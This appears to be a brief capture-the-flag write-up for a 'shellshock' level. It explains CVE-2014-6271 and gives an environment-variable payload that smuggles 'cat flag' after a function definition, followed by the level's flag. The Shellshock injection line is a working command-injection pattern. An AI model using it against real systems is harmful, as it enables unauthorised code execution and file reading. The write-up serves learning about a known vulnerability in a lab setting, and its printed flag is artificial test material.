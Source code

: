 ```yaml
---
layout: default
title: shellshock
---
```




in this level we exploit the bug of shellshock, which runs unintentionally code that is found after func declaration inside env variables.

```
export env_var='() { echo "regular stuff"; }; cat flag'
```

![image](./images/shellshock.png)

**Flag:** ***`only if I knew CVE-2014-6271 ten years ago..!!`***
